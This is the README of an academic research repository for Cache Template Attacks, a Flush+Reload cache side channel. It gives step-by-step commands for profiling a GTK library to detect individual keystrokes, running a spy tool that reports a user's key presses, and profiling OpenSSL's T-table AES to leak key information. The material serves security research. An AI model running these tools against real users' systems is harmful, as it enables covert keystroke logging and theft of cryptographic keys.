 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://eprint.iacr.org/2013/448.pdf)" (2014).

The "[Cache Template Attacks]()" paper will be published soon.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).

**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Keypresses (with libxdotool)
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

In this example we perform some steps by hand to illustrate how Cache Template Attacks work.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
On Linux, run the following lines:
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
On Windows with MSYS/MinGW, run the following lines:
```
cd profiling/windows_low_frequency_example
mingw32-make
echo "switch to notepad window"
sleep 5; ./spy 200 C:\Windows\System32\notepad.exe > notepad.csv
```

The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

**Note:** The spy.sh script does this part automatically, it profiles all shared libraries and binary files loaded by the program under attack (for instance gedit).

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).
This spy tool can also be used on Windows just like that.

## Getting started: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. In the previous example we used libxdotool for this purpose.

On Windows or OSX you might not have procfs to retrieve the shared library mappings.
However, on Windows there is vmmap which gives you the same information and on OSX you can use at least ldd and scan the binary itself. Therefore, we execute the generic example tool similar as before:
```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

## OpenSSL AES T-Table attack
This example requires a self-compiled OpenSSL library to enable it's T-Table-based AES implementation.
Place libcrypto.so in the same folder and make sure the program actually uses it as a shared library.
Then run
```
cd profiling/aes_example
make
./spy
```
The T-Table is easily locatable in the log file as there are only 64 addresses which are frequently accessed, but not always accessed.
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

## Fully automated attack
In this example we will run a script which will automatically execute the profiling phase as described before and then switch to the multi_spy exploitation tool as soon as a result is available.

